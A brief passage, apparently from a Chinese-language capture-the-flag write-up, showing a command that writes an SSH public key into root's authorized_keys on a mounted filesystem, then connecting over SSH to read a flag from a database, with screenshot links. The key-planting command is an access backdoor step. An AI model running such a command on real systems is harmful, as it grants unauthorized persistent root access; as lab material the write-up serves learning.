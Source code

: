 写公钥

```
echo "ssh-rsa xxxx" > /mnt/root/.ssh/authorized_keys
```

ssh连接，在数据库中得到flag

![image-20240905011310552](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905011310552.png?imageSlim)

读取flag

![image-20240905011328861](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905011328861.png?imageSlim)

